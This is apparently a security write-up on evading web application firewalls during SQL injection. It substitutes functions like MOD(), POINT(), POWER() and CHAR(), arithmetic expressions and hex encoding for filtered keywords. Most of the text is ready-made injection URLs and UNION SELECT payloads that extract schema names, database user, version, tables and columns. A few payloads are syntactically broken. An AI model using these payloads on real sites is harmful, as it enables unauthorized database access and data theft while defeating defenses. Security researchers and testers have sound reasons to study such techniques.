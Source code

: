 ```yaml
---
title: Case study on SQL Injection WAF bypassing via SQL Functions
updated: 2021-09-05 13:55
---
```


## The traditional way using And 0

The ordinary usage of And 0 is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.

```
And 1=0
And false
And 0
And 1
And 50=60
Any number that are not the same will equal to (0, false, null)
```

## The alternative way of using And 0

The following methods are newly discovered queries which are supported by it’s respective SQL, as a new way of declaring false, null or 0 value(s).

1) Any **Mathematical/Arithmetic** or **Logical Problem** that equal to 0

```
And 1*0
And 1-1
And 0/1
```
For example:  
http://website.com/index.php?id=1’ and 1*0 order by 10--

2) Using **MOD()**

```
SELECT mod(10, 2);
```

The used mod() Function will output to 0

For example:  
http://website.com/index.php?id=1 and mod(29,9) Order by 10--

3) Using **POINT()**

```
SELECT point(29, 9);
```
For example:  
http://website.com/index.php?id=1 and point(29,9) Order by 10--

4) Using **POWER()**

```
SELECT power(5,5);
```
For example:  
http://website.com/index.php?id=1 and power(5,5) Order by 10--

## Illegal parameter data types

Error notification Illegal parameter data types INT and row for operation '=', is related to the data type of column included in the condition. The problem can occur because of many reasons.

1) For operation **MOD**
```
% = Modulo
```
For example:
http://website.com/index.php?id=1 % point(29,9) Order by 10--

2) For operation **&**
```
& = Bitwise And
&& = Logical And
```
For example:  
http://website.com/index.php?id=1 && point(29,9) Order by 10--

3) For operation **OR**
```
| = Bitwise OR
|| = Logical OR, sometimes use for Concatanation
```
For example:  
http://website.com/index.php?id=1 || point(29,9) Order by 10--

## The traditional way of using Null

The ordinary usage of Null is easily detected by WAF and instantly triggers it, so it becomes impossible to use that query. The examples below describes the traditional way of using an false value in SQL Injection.
```
Union Select null, null, null, null
```

## The alternative way of using Null

1) Using **0**
```
UNION SELECT 0,0,0,0
```
For example:  
http://website.com/index.php?id=1 div **0** Union Select **0**,**0**,**0**,**0** (SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**0**,**0**--+"

2) Using **false**
```
UNION SELECT false,false,false,false
```
For example:  
http://website.com/index.php?id=1 div **false** Union Select **false**,**false**,**false**,**false**,SELECT+GROUP_CONCAT(schema_name+SEPARATOR+0x3c62723e)+FROM+INFORMATION_SCHEMA.SCHEMATA),**false**--+

3) Using **char()**
```
UNION SELECT char(null),char(null),char(null),char(null)
UNION SELECT char(false),char(false,char(false),char(false)
UNION SELECT char(0),char(0),char(0),char(0)
UNION SELECT char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c),char(0x4e554c4c)
```
For example:  
http://website.com/index.php?id=1 div **char(false)** Union Select "**char(false)** div **char(false)** Union Select **char(false)**,**char(false)**,**char(false)**,**char(false)**,concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database :: ',database(),0x3c62723e,'User ::',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),**char(false)**--+",**char(false)**,**char(false)**,**char(false)**,**char(false)**,**char(false)**--+

4) Using **Arithmetic** or **Logical Operator**
```
UNION SELECT (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0)
UNION SELECT 34=35,34=35,34=35,34=35
```
For example:  
```
http://website.com/index.php?id=1 div (0*1337-0) Union Select "(0*1337-0) div (0*1337-0) Union Select (0*1337-0),(0*1337-0),(0*1337-0),(0*1337-0),concat(0x222f3e,0x3c62723e,0x3c62723e,'<br>','Database ::',database(),0x3c62723e,'User :: ',user(),0x3c62723e,'Version ::',version(),0x3c62723e,user(),make_set(6,@:=0x0a, (select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@),0x3c62723e),(0*1337-0)--+",(0*1337-0),(0*1337-0), (0*1337-0),(0*1337-0),(0*1337-0)--+
```

## Bypassing Static Web Application Firewall with 0xHEX values

Since 0xHEX values are accepted and widely used in SQL Queries and Injection payloads, it is a great way to bypass static-based Firewalls. Using this technique, it is possible to avoid using words such as **NULL**, **false**, or ‘ (single quotes). Below are existing payload, but their respective values are converted to 0xHEX format.

```
SELECT CHAR(NULL); → SELECT CHAR(0x4e554c4c);
SELECT CHAR(0) → SELECT CHAR(0x30);
SELECT MOD(29, 9); → SELECT MOD(0x3239, 0x34);
SELECT POINT(29, 9); → SELECT POINT(0x3239, 0x39);
```
